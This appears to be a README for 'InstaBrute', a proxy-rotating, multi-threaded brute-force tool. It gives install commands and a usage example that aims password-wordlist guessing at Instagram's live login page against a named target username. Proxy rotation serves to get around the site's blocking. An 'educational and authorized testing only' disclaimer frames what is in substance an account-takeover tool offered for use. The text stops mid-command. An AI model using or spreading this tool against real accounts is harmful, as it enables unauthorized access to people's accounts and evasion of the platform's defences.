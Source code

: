 # 🛡️ InstaBrute - Ethical Multi-Threaded Brute Forcer

## 🚀 Overview

**InstaBrute** is a multi-threaded, proxy-rotating brute force tool built for ethical penetration testing and login security auditing. It allows the user to test a known username against a password wordlist and optionally route attempts through rotating HTTP/HTTPS proxies.

> ⚠️ This tool is for **educational** and **authorized security testing** only.

---

## 🔍 Features

- 🔁 Supports proxy rotation from a file (`IP:PORT`)
- 🔐 Custom login URL and POST body
- ⚡ Fast, multi-threaded password testing
- 📜 Wordlist support (e.g., `rockyou.txt`)
- 🔥 Auto-skip dead/failing proxies
- 🎯 Clean CLI argument interface

---

## ⚙️ Usage

```bash
apt update -y
apt upgrade -y
apt install git
git clone https://github.com/REDPYTHON804/insta-bruter.git
apt install python3
apt install python3-pip
pip install -r requirements.txt

python3 instabrute.py \
  --url https://www.instagram.com/accounts/login/ \
  --username Target_user \
  --wordlist passwords.txt \
  --proxies proxy.txt \
